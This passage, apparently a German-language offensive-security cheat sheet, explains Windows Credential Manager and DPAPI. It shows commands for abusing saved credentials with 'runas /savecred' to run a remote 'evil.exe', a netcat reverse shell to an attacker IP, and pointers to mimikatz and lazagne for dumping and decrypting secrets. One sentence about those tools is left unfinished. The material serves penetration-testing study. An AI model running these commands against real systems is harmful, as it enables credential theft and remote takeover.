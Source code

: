 Von [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)\
Der Windows-Tresor speichert Benutzeranmeldeinformationen für Server, Websites und andere Programme, bei denen **Windows** die Benutzer **automatisch anmelden kann**. Auf den ersten Blick mag es so aussehen, als könnten Benutzer jetzt ihre Facebook-Anmeldeinformationen, Twitter-Anmeldeinformationen, Gmail-Anmeldeinformationen usw. speichern, damit sie sich automatisch über Browser anmelden. Aber das ist nicht so.

Der Windows-Tresor speichert Anmeldeinformationen, die Windows verwenden kann, um die Benutzer automatisch anzumelden, was bedeutet, dass jede **Windows-Anwendung, die Anmeldeinformationen benötigt, um auf eine Ressource** (Server oder Website) **zuzugreifen, diesen Anmeldeinformationsmanager** & Windows-Tresor nutzen und die bereitgestellten Anmeldeinformationen verwenden kann, anstatt dass die Benutzer ständig ihren Benutzernamen und ihr Passwort eingeben.

Es sei denn, die Anwendungen interagieren mit dem Anmeldeinformationsmanager, denke ich nicht, dass es ihnen möglich ist, die Anmeldeinformationen für eine bestimmte Ressource zu verwenden. Wenn Ihre Anwendung also den Tresor nutzen möchte, sollte sie irgendwie **mit dem Anmeldeinformationsmanager kommunizieren und die Anmeldeinformationen für diese Ressource** aus dem Standardspeichertresor anfordern.

Verwenden Sie `cmdkey`, um die gespeicherten Anmeldeinformationen auf dem Computer aufzulisten.
```bash
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
```
Dann können Sie `runas` mit der Option `/savecred` verwenden, um die gespeicherten Anmeldeinformationen zu nutzen. Das folgende Beispiel ruft eine entfernte Binärdatei über einen SMB-Freigabe auf.
```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```
Verwendung von `runas` mit einem bereitgestellten Satz von Anmeldeinformationen.
```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
Beachten Sie, dass mimikatz, lazagne, [credentialfileview](https://www.nirsoft.net/utils/credentials_file_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault_password_view.html) oder aus dem [Empire Powershells-Modul](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1).

### DPAPI

Die **Data Protection API (DPAPI)** bietet eine Methode zur symmetrischen Verschlüsselung von Daten, die hauptsächlich im Windows-Betriebssystem zur symmetrischen Verschlüsselung asymmetrischer privater Schlüssel verwendet wird. Diese Verschlüsselung nutzt ein Benutzer- oder Systemgeheimnis, um erheblich zur Entropie beizutragen.

**DPAPI ermöglicht die Verschlüsselung von Schlüsseln durch einen symmetrischen Schlüssel, der aus den Anmeldegeheimnissen des Benutzers abgeleitet wird**. In Szenarien mit Systemverschlüsselung verwendet es die Authentifizierungsgeheimnisse der Domäne des Systems.

Verschlüsselte Benutzer-RSA-Schlüssel, die mit DPAPI erstellt wurden, werden im Verzeichnis `%APPDATA%\Microsoft\Protect\{SID}` gespeichert, wobei `{SID}` den [Security Identifier](https://en.wikipedia.org/wiki/Security_Identifier) des Benutzers darstellt. **Der DPAPI-Schlüssel, der zusammen mit dem Master-Schlüssel, der die privaten Schlüssel des Benutzers im selben Datei schützt, gespeichert ist**, besteht typischerweise aus 64 Bytes zufälliger Daten. (Es ist wichtig zu beachten, dass der Zugriff auf dieses Verzeichnis eingeschränkt ist, was das Auflisten seines Inhalts über den `dir`-Befehl in CMD verhindert, obwohl es über PowerShell aufgelistet werden kann).
```powershell
Get-ChildItem  C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem  C:\Users\USER\AppData\Local\Microsoft\Protect\
```
Sie können das **mimikatz-Modul** `dpapi::masterkey` mit den entsprechenden Argumenten (`/pvk` oder `/rpc`) verwenden, um es zu entschlüsseln.
